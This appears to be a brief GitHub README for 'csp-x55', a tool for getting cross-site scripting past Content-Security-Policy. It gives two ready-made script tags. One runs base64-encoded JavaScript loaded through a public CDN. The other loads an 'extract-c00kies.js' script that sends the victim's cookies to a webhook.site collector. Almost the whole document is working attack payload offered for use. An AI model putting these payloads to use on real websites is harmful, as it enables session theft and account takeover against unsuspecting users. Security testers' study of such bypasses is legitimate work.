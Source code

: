 # csp-x55
Content-Security-Policy XSS

Example usage using `alert('xss');` in base64 `YWxlcnQoJ3hzcycpOw==`
```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55/x55.js?c=YWxlcnQoJ3hzcycp">
```

```html
<script src="https://cdn.jsdelivr.net/gh/gramthanos/csp-x55@766f06154617964de53410b6aa7ff02459b4925e/extract-c00kies.js" r="https://webhook.site/youridhere"></script>
```
